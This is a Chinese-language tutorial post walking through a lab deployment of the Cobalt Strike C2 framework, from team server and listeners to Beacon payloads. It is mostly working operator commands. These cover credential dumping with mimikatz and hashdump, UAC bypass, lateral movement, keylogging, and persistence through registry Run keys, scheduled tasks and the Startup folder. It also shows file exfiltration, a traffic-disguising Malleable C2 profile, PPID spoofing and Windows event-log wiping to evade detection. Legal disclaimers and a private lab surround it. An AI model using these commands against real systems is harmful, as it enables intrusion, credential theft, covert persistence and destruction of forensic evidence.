# CobaltStrike 部署与 C2 功能实战指南

最近在研究红队工具，CobaltStrike（简称 CS）作为主流的 C2 框架，必须亲手搭一遍才能深入理解。本篇记录从 Team Server 部署、Payload 生成到各 C2 功能的完整实验过程。

::: warning 法律声明
本文内容仅供**合法授权场景**下的网络安全研究使用。未经授权实施渗透测试可能构成**非法侵入计算机信息系统罪**，请严格遵守《网络安全法》《刑法》相关规定。
:::

## 一、实验环境

| 角色 | 系统 | IP | 说明 |
|------|------|-----|------|
| Team Server | Kali Linux | 192.168.215.142 | CS 4.9 服务端 |
| 攻击者客户端 | Windows 11 | 192.168.236.58 | CS 客户端 GUI |
| 目标主机 | Windows 10 | 192.168.215.141 | 受害者机器 |

## 二、部署 Team Server

### 2.1 启动服务端

在 Kali 上进入 CS 4.9 目录，赋予执行权限并启动 Team Server：

```bash
chmod +x teamserver
./teamserver 192.168.215.142 zhangsan
```


启动成功后会看到 `Team server online` 和监听端口 `50050` 的提示。


### 2.2 客户端连接

在 Windows 11 上运行客户端，填写连接信息：

| 字段 | 值 |
|------|-----|
| Host | 192.168.215.142 |
| Port | 50050 |
| User | operator1 |
| Password | zhangsan |



连接成功后进入 CS 主界面。



## 三、配置监听器（全类型实验）

监听器（Listener）是 CS 与 Beacon 通信的桥梁，决定了回连协议与端口。本节将逐一创建 **HTTP、HTTPS、DNS、SMB、TCP** 五种监听器，全部实验一遍。

### 3.1 创建 HTTP 监听器

`Cobalt Strike → Listeners → Add`，弹出监听器配置窗口：



填写参数：

| 参数 | 值 |
|------|-----|
| Name | http_listener |
| Payload | Beacon HTTP |
| HTTP Hosts | 192.168.215.142 |
| HTTP Port | 80 |



点击 Save 后，在 Listeners 面板可以看到 `http_listener` 条目。

### 3.2 创建 HTTPS 监听器

再次 `Add`，创建 HTTPS 监听器。HTTPS 需要配置证书，CS 默认使用自签名证书：

| 参数 | 值 |
|------|-----|
| Name | https_listener |
| Payload | Beacon HTTPS |
| HTTPS Hosts | 192.168.215.142 |
| HTTPS Port | 443 |


保存后，Listeners 面板出现 `https_listener`。


### 3.3 创建 DNS 监听器

DNS 监听器用于出网受限场景，通过 DNS 查询回传数据，隐蔽性高但速度慢。DNS Beacon 实验需要**先配置域名解析**，再创建监听器。

#### 3.3.1 DNS Beacon 工作原理

DNS Beacon 通过 DNS 协议与 Team Server 通信，利用多种记录类型：

| 记录类型 | 用途 |
|----------|------|
| A 记录 | 回连 Team Server，获取任务 |
| AAAA 记录 | 回传数据（IPv6 格式编码） |
| TXT 记录 | 回传数据（文本编码） |

通信流程：Beacon 向 Team Server 发起 DNS 查询 → 服务器在 DNS 响应中编码任务 → Beacon 解析并执行 → 结果通过 DNS 查询回传。


```mermaid
sequenceDiagram
    participant B as Beacon
    participant T as Team Server
    participant D as DNS Server

    B->>D: 查询 c2.lab.local (A 记录)
    D->>T: 转发查询
    T->>D: 响应，编码任务指令
    D->>B: 返回 DNS 响应
    B->>B: 解析并执行任务
    B->>D: 查询回传数据 (TXT/AAAA 记录)
    D->>T: 转发回传
    T->>D: 响应，接收数据
    D->>B: 返回响应
```

> **注意**：Mermaid 图表需要使用 ```mermaid 代码块才能正确渲染。

#### 3.3.2 配置域名解析（关键步骤）

DNS 监听器**必须**有一个可解析的域名，否则 Beacon 无法回连。

> **如果你拥有真实域名 + 公网 IP（含 IPv6）**：可以跳过 dnsmasq，直接在域名服务商处配置 DNS 记录，更接近真实攻防场景。详见下文**方式二**。

**方式一：本地 dnsmasq（私网 IP，模拟 DNS 通信）**

由于本实验 Team Server 是**私网 IP**（192.168.215.142），公网 DNS 无法解析到私网地址。这里在 Kali 上使用 `dnsmasq` 搭建本地 DNS 服务器，将 `c2.lab.local` 解析到 Team Server 私网 IP：

```bash
# 更新软件源（首次安装前必须执行，否则可能找不到 dnsmasq 包）
sudo apt update

# 安装 dnsmasq（需要 root 权限，使用 sudo）
sudo apt install dnsmasq -y

# 编辑配置，添加解析记录
echo "address=/c2.lab.local/192.168.215.142" | sudo tee -a /etc/dnsmasq.conf

# 启动 dnsmasq
sudo systemctl start dnsmasq
sudo systemctl enable dnsmasq
```

验证 dnsmasq 是否正常解析：

```bash
# 本机验证，指定 DNS 服务器为 127.0.0.1（dnsmasq）
dig c2.lab.local A @127.0.0.1
```

执行上述命令后，成功解析到 Team Server 的 IP：

```text
┌──(kali㉿kali)-[~]
└─$ dig c2.lab.local A @127.0.0.1

; <<>> DiG 9.20.23-1-Debian <<>> c2.lab.local A @127.0.0.1
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 38288
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1

;; QUESTION SECTION:
;c2.lab.local.                  IN      A

;; ANSWER SECTION:
c2.lab.local.           0       IN      A       192.168.215.142

;; Query time: 4 msec
;; SERVER: 127.0.0.1#53(127.0.0.1) (UDP)
;; MSG SIZE  rcvd: 57
```


> **真实环境工作原理**：在真实攻防场景中，攻击者会注册一个公网域名（如 `c2.attacker.com`），并在域名服务商处配置 NS 记录指向自己的 DNS 服务器（或使用 A 记录直接指向公网 IP 的 Team Server）。目标主机通过公网 DNS 解析该域名，向 Team Server 发起 DNS 查询，实现 C2 通信。

**方式二：真实域名 + 公网 IP（含 IPv6）**

如果你拥有真实域名（如 `yourdomain.com`）和公网 IP（含 IPv6），可以跳过 dnsmasq，直接在域名服务商处配置 DNS 记录：

1. **获取 Kali 的公网 IPv6 地址**：

```bash
# 查看公网 IPv6 地址
curl -6 ifconfig.me
```

2. **在域名服务商处配置 AAAA 记录**（IPv6）或 A 记录（IPv4）：

| 记录类型 | 主机记录 | 记录值 |
|----------|----------|--------|
| AAAA | c2 | 你的公网 IPv6 地址 |

3. **在 CS 中创建 DNS 监听器**，DNS Hosts 填写你的真实域名（如 `c2.yourdomain.com`），DNS Port 填写 53。

4. **验证解析**：

```bash
# 验证 AAAA 记录
dig c2.yourdomain.com AAAA

# 验证 A 记录
dig c2.yourdomain.com A
```


> 说明：方式二是真实攻防环境下的标准操作，域名通过公网 DNS 解析到 Team Server，Beacon 通过公网 DNS 查询回连。方式一（dnsmasq）仅适用于私网 IP 实验环境。

#### 3.3.3 创建 DNS 监听器

> **注意**：dnsmasq 已占用端口 53，创建 DNS 监听器前**必须先停止 dnsmasq**，否则会报 `Could not start listener: Address already in use` 错误。CS 的 DNS 监听器本身会处理 `c2.lab.local` 的 DNS 查询，无需 dnsmasq 继续运行。

```bash
# 停止 dnsmasq，释放端口 53
sudo systemctl stop dnsmasq
```

域名解析验证完成后，回到 CS 客户端创建 DNS 监听器：

| 参数 | 值 |
|------|-----|
| Name | dns_listener |
| Payload | Beacon DNS |
| DNS Hosts | c2.lab.local |
| Host (Stager) | c2.lab.local |
| DNS Port | 53 |


保存后，Listeners 面板出现 `dns_listener`。


#### 3.3.4 配置目标主机 DNS 指向

目标 Windows 10 必须将 DNS 服务器指向 Team Server（192.168.215.142），因为 CS DNS 监听器已在端口 53 上运行，负责处理 `c2.lab.local` 的 DNS 查询。

在目标 Windows 10 上，打开网络适配器设置，将首选 DNS 服务器改为 Kali 的 IP（192.168.215.142）：

```powershell
# 以管理员身份运行，将 DNS 指向 Team Server
netsh interface ip set dns "以太网" static 192.168.215.142
```


验证目标主机能否解析：

```powershell
nslookup c2.lab.local
```



#### 3.3.5 生成并执行 DNS Payload

`Attacks → Packages → Windows Stager Payload`，选择 `dns_listener` 生成 DNS Beacon：

| 参数 | 值 |
|------|-----|
| Listener | dns_listener |
| Output Type | Windows EXE |
| Architecture | x64 |



在目标 Windows 10 上执行生成的 `beacon_dns.exe`，等待回连。

#### 3.3.6 验证 DNS Beacon 上线

回到 CS 客户端，目标主机上线后，右键 Beacon → Interact，输入 `help` 确认 DNS Beacon 正常工作。




在 Kali 上抓包验证 DNS 通信流量：

```bash
# 抓取 DNS 查询流量
tcpdump -i eth0 port 53 -n
```


可以看到 Beacon 周期性发起 `c2.lab.local` 的 DNS 查询，证明 DNS 通信链路已建立。

### 3.4 创建 SMB 监听器

SMB 监听器用于内网横向移动，通过命名管道通信，不产生网络流量：

| 参数 | 值 |
|------|-----|
| Name | smb_listener |
| Payload | Beacon SMB |
| Pipe Name | msagent_xxx |



保存后，Listeners 面板出现 `smb_listener`。


### 3.5 创建 TCP 监听器

TCP 监听器用于内网直连场景：

| 参数 | 值 |
|------|-----|
| Name | tcp_listener |
| Payload | Beacon TCP |
| TCP Port | 4444 |


保存后，Listeners 面板出现 `tcp_listener`。

### 3.6 监听器全览

完成以上五种监听器后，Listeners 面板应包含全部条目：



### 3.7 监听器类型对比

| 监听器类型 | 协议 | 适用场景 | 隐蔽性 |
|------------|------|----------|--------|
| Beacon HTTP | HTTP | 最常用，穿透防火墙 | 中 |
| Beacon HTTPS | HTTPS | 加密通信，防嗅探 | 高 |
| Beacon DNS | DNS | 出网受限场景 | 高 |
| Beacon SMB | SMB | 内网横向，命名管道 | 高 |
| Beacon TCP | TCP | 内网直连 | 中 |

## 四、生成 Windows 10 Payload（全类型实验）

本节将逐一生成 **Windows EXE（Staged）、Windows EXE（Stageless）、HTA** 三种 Payload，全部实验一遍。

### 4.1 生成 Windows EXE（Staged）

`Attacks → Packages → Windows Stager Payload`，选择 `http_listener`：

| 参数 | 值 |
|------|-----|
| Listener | http_listener |
| Output Type | Windows EXE |
| Architecture | x64 |



点击 Generate 生成 `beacon.exe`。

### 4.2 生成 Windows EXE（Stageless）

`Attacks → Packages → Windows Stageless Payload`，生成无阶段 Payload，适合网络受限环境：

| 参数 | 值 |
|------|-----|
| Listener | http_listener |
| Output Type | Windows EXE |
| Architecture | x64 |



生成后获得 `beacon_stageless.exe`。

### 4.3 生成 HTA Payload

`Attacks → Packages → HTML Application`，生成 HTA 用于钓鱼投递。HTA 有**三种执行方式**，分别是：

| HTA 类型 | 原理 | 特点 |
|----------|------|------|
| HTA (Executable) | HTA 内嵌可执行文件（EXE），直接运行 | 体积较大，有文件落地，适用于直接执行场景 |
| HTA (PowerShell) | HTA 通过 PowerShell 下载并执行 Payload | 内存执行，无文件落地，绕过部分静态 AV |
| HTA (VBA) | HTA 嵌入 VBA 宏代码，通过 Office 组件执行 | 依赖 Office 环境，绕过脚本分析 |

选择 `http_listener`，生成 HTA：

| 参数 | 值 |
|------|-----|
| Listener | http_listener |
| HTML Application | HTA |



生成后获得 `beacon.hta`。


### 4.4 Payload 全览

完成以上 Payload 后，攻击机目录应包含全部生成文件：


### 4.5 Payload 类型对比

| Payload 类型 | 适用场景 |
|--------------|----------|
| Raw | 配合自定义加载器 |
| Windows EXE | 直接执行 |
| Stageless EXE | 不依赖 Stager |
| HTA | 钓鱼投递 |

## 五、Beacon 上线

### 5.1 执行 Payload

在目标 Windows 10 上执行 `beacon.exe`，等待 Beacon 回连。


### 5.2 上线确认

回到 CS 客户端，可以看到目标主机已上线：


右键 Beacon → Interact，进入交互界面，输入 `help` 查看所有可用命令。

## 六、C2 功能实战

### 6.1 基础信息收集

```bash
# 获取当前权限
beacon> getuid

# 查看进程
beacon> ps

# 查看网络配置
beacon> shell ipconfig /all

# 查看 ARP 缓存（发现内网主机）
beacon> shell arp -a
```


### 6.2 文件操作

```bash
# 列出文件
beacon> ls C:\Users

# 下载文件
beacon> download C:\Users\victim\Desktop\secret.txt

# 上传文件
beacon> upload /opt/tools/mimikatz.exe
```

### 6.3 命令执行

```bash
# cmd 执行
beacon> shell whoami /all

# PowerShell 执行
beacon> powershell Get-NetUser | select name

# 内存执行 .NET 程序
beacon> execute-assembly /opt/tools/Rubeus.exe klist
```
### 6.4 权限提升

```bash
# Bypass UAC
beacon> bypassuac http_listener

# Mimikatz 抓取凭证
beacon> mimikatz sekurlsa::logonpasswords

# 导出 SAM 哈希
beacon> hashdump
```

### 6.5 内网横向移动

```bash
# 端口扫描内网
beacon> portscan 192.168.236.0/24 445,3389,22,80

# 通过 SMB 横向
beacon> jump psexec 192.168.236.x smb_listener

# 通过 WMI 横向
beacon> jump wmi 192.168.236.x smb_listener

# 通过 WinRM 横向
beacon> jump winrm 192.168.236.x smb_listener
```

### 6.6 端口转发与代理

**原理说明**：当 Beacon 上线后，攻击机与 Beacon 之间建立了加密隧道。端口转发和代理都利用这条隧道，将攻击机的请求通过 Beacon 转发到内网目标，从而访问内网不可直接到达的服务。

- **rportfwd（反向端口转发）**：在 Beacon 主机上监听一个本地端口（如 8080），将所有流量转发到指定的内网目标。攻击机直接访问 Beacon 的 8080 端口即可。
- **socks（SOCKS 代理）**：在 Beacon 主机上启动一个 SOCKS 代理服务（如 1080），攻击机通过 proxychains 等工具，将任意流量通过 SOCKS 代理转发到任意内网目标。

```bash
# 反向端口转发
beacon> rportfwd 8080 192.168.236.58 80

# 启动 SOCKS4a 代理
beacon> socks 1080
```


```mermaid
sequenceDiagram
    participant 攻击机 as 外部攻击机（你）
    participant Beacon as Beacon主机<br/>192.168.215.141
    participant 目标 as 内网目标<br/>192.168.236.58

    攻击机->>Beacon: 访问 :8080
    Beacon->>目标: 转发到 :80
    目标-->>Beacon: 返回Web响应
    Beacon-->>攻击机: 返回数据
```


注：这里用本机代替内网目标，但流量其实是经过Beacon主机请求返回的。

在攻击者机器上配置代理使用 SOCKS：

> **注意**：本实验攻击机是 Windows 11，proxychains 是 Linux 工具，无法直接在 Windows 上使用。Windows 上可以使用 **Proxifier** 或 **ProxyCap** 等工具实现相同功能。以下分别介绍 Linux 和 Windows 的配置方法。

**方式一：Linux 攻击机（使用 proxychains）**

**原理说明**：proxychains 是一个 Linux 工具，可以强制任何 TCP 连接通过 SOCKS 代理。当我们在 Beacon 上启动 `socks 1080` 后，Beacon 会在其主机（192.168.215.141）的 1080 端口监听 SOCKS 服务。攻击机上的 proxychains 会将所有流量通过 192.168.215.141:1080 转发给 Beacon，再由 Beacon 转发到内网目标。

**关键点**：`socks 1080` 是在 Beacon 主机（192.168.215.141）上运行的，所以 1080 端口监听在 Beacon 主机上。

**配置步骤**：

1. **编辑 proxychains 配置文件**（`/etc/proxychains4.conf`）：

```bash
# 打开配置文件
sudo vim /etc/proxychains4.conf

# 找到 [ProxyList] 部分，添加：
socks4 192.168.215.141 1080
```

| 配置项 | 含义 |
|--------|------|
| `socks4` | 使用 SOCKS4 协议（也支持 socks5） |
| `192.168.215.141` | Beacon 主机的 IP 地址（SOCKS 服务器地址） |
| `1080` | Beacon 上 socks 监听的端口 |

2. **使用 proxychains 执行命令**：

```bash
# 所有通过 proxychains 执行的命令都会自动走 SOCKS 代理
proxychains nmap -sT -Pn 10.0.0.5
```

**实际效果**：nmap 扫描 `10.0.0.5` 时，流量路径为：
```text
攻击机(nmap) → proxychains → Beacon:1080 → 内网目标:10.0.0.5
```

**方式二：Windows 攻击机（使用 Proxifier）**

**原理说明**：Proxifier 是 Windows 上的代理工具，功能与 proxychains 类似，可以强制任何程序通过 SOCKS 代理。

**配置步骤**：

1. **下载并安装 Proxifier**：
   - 官网：https://www.proxifier.com/
   - 安装后打开 Proxifier

2. **添加 SOCKS 代理**：
   - `Profile` → `Proxy Servers` → `Add`
   - 填写：
     - **Address**: `192.168.215.141`（Beacon 主机的 IP）
     - **Port**: `1080`
     - **Protocol**: `SOCKS Version 5`
   - 点击 `OK`

3. **配置代理规则**：
   - `Profile` → `Proxification Rules` → `Add`
   - 填写：
     - **Name**: `Beacon SOCKS`
     - **Applications**: 选择要代理的程序（如 `nmap.exe`）
     - **Action**: 选择刚才添加的 SOCKS 代理
   - 点击 `OK`

4. **使用代理执行命令**：
   - 直接运行 nmap 或其他工具，Proxifier 会自动通过 SOCKS 代理转发：
   ```cmd
   nmap -sT -Pn 10.0.0.5
   ```

**实际效果**：与 Linux 相同，流量路径为：
```text
攻击机(nmap) → Proxifier → Beacon:1080 → 内网目标:10.0.0.5
```

#### 6.6.1 rportfwd 与 socks 对比

| 特性 | rportfwd（端口转发） | socks（代理） |
|------|---------------------|---------------|
| 目标 | 固定单个目标（如 192.168.236.58） | 任意内网目标（如 10.0.0.5） |
| 访问方式 | 直接访问 Beacon 的 8080 端口 | 通过 proxychains 等工具 |
| 协议支持 | 仅 TCP | TCP（SOCKS4/4a/5） |
| 配置复杂度 | 简单（一行命令） | 中等（需配置客户端） |
| 灵活性 | 低（一个端口一个目标） | 高（一个端口访问所有） |
| 适用场景 | 快速访问特定服务 | 全面内网探测和渗透 |

**流量走向对比**：

- **rportfwd（端口转发）**：
  ```text
  攻击机 → Beacon:8080 → 固定目标:192.168.236.58:80
          ↑              ↑
       端口映射        固定IP
  ```

- **socks（代理）**：
  ```text
  攻击机 → Beacon:1080 → 动态目标:10.0.0.5:任意端口
          ↑              ↑
       代理服务        任意目标
  ```

### 6.7 屏幕监控与键盘记录

```bash
# 截图
beacon> screenshot

# 查看桌面
beacon> desktop 1

# 键盘记录
beacon> keylogger

# 剪贴板
beacon> clipboard
```






### 6.8 权限维持

```bash
# Spawn 新 Beacon
beacon> spawn http_listener

# 当前用户启动项（不需要管理员）
shell reg add "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v UpdateService /t REG_SZ /d "C:\Users\zhangsan\Downloads\beacon.exe" /f

# 用户计划任务
shell schtasks /create /tn "UserUpdate" /tr "C:\Users\zhangsan\Downloads\beacon.exe" /sc hourly /ru zhangsan

# Startup文件夹
shell echo C:\Users\zhangsan\Downloads\beacon.exe > "%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup\startup.bat"
```


### 6.9 数据外传

```bash
# 下载目标文件到 Team Server
beacon> download C:\Users\victim\Documents\data.zip

# 通过 HTTP 下载文件到目标
beacon> wget http://192.168.215.142/tools.zip
```


## 七、通信隐蔽与流量伪装

### 7.1 Malleable C2 Profile

自定义 C2 通信流量特征，伪装为合法流量。以 Amazon 流量为例：

```plaintext
# amazon.profile
set sample_name "Amazon";
set sleeptime "30000";
set jitter "20";
set useragent "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36";

http-get {
    set uri "/api/products/";
    client {
        header "Accept" "application/json";
        metadata {
            base64url;
            prepend "session=";
            header "Cookie";
        }
    }
    server {
        header "Content-Type" "application/json";
        output {
            base64url;
            print;
        }
    }
}
```

启动时加载 Profile：

```bash
./teamserver 192.168.215.142 MyStrongPass123 /opt/c2-profiles/amazon.profile
```


### 7.2 Sleep 与 Jitter 调优

```bash
# 回连间隔 30 秒，抖动 20%
beacon> sleep 30 20

# 紧急模式（快速回连）
beacon> sleep 0
```

## 八、防御检测与对抗

### 8.1 常见检测点

| 检测维度 | 检测方法 | 对抗策略 |
|----------|----------|----------|
| 网络流量 | IDS/IPS 检测 C2 特征 | Malleable C2 + 域名前置 |
| 进程行为 | EDR 检测可疑进程创建 | PPID 欺骗 + 进程注入 |
| 内存特征 | 内存扫描 Beacon 特征 | BOF + 内存加密 |
| 文件落地 | AV 扫描 Payload 文件 | PowerShell 内存执行 |
| 注册表 | 监控自启动项 | WMI 事件订阅 |
| 日志审计 | Windows 事件日志分析 | 痕迹清理 |

### 8.2 OPSEC 实践

```bash
# 设置 SpawnTo 进程
beacon> spawnto x64 C:\Windows\System32\svchost.exe

# 设置父进程 PID
beacon> ppid 632

# 清理日志
beacon> shell wevtutil cl System
beacon> shell wevtutil cl Security
beacon> shell wevtutil cl Application
```

**1. SpawnTo - 设置派生进程**

**作用**：当 Beacon 需要派生新的 Beacon 会话时（如执行 jump、remote-exec 等命令），会伪装成 `svchost.exe` 进程启动。

**为什么选 svchost.exe？**

- `svchost.exe` 是 Windows 核心系统进程，通常多个实例同时运行
- 网络流量特征不明显，难以区分恶意和合法流量
- 安全产品通常白名单此进程

**OPSEC 意义**：

- ✅ 避免创建 `rundll32.exe`、`powershell.exe` 等敏感子进程
- ✅ 减少触发行为检测规则

**2. PPID - 父进程 ID 欺骗**

**作用**：将 Beacon 新派生进程的父进程 ID 伪造为 PID 636。

**为什么选 636？**（假设）可能是：

- `svchost.exe`（PID 636）
- `services.exe`
- `winlogon.exe`

**实际效果对比**：

| 对比项 | 未设置 PPID | 设置 PPID 后 |
|--------|-------------|--------------|
| 进程链 | `beacon.exe → cmd.exe` | 欺骗为：`svchost.exe → cmd.exe` |
| 父进程特征 | 可疑的 beacon.exe | 可信系统进程 |
| EDR 检测 | 容易告警 | 绕过父进程链检测 |

**现实场景**：

设置完成后，在目标主机上查看进程，可以看到新派生的进程父进程是 `svchost.exe` 而不是 `beacon.exe`，从而绕过基于父进程链的检测。

```bash
# 在 Beacon 中查看进程列表
beacon> ps

# 可以看到新进程的 PPID 是 632（svchost.exe）
```


## 九、实验总结

通过本次实验，完整走通了 CobaltStrike 从部署到 C2 功能运用的全流程：

1. **部署阶段**：Team Server 启动 + 客户端连接
2. **监听器阶段**：HTTP / HTTPS / DNS / SMB / TCP 五种监听器全部创建
3. **Payload 阶段**：EXE / Stageless / HTA 三种生成方式
4. **上线阶段**：执行 Payload，Beacon 成功回连
5. **C2 功能**：信息收集、文件操作、命令执行、提权、横向、代理、监控、持久化、数据外传
6. **隐蔽阶段**：Malleable C2 流量伪装 + OPSEC 实践

::: danger 重要提醒
1. **仅限授权使用**：所有操作必须在获得书面授权的测试环境中进行
2. **遵守法律法规**：未经授权的渗透测试可能触犯《刑法》第 285 条
3. **数据保护**：测试中获取的敏感数据应立即匿名化处理，测试结束后销毁
:::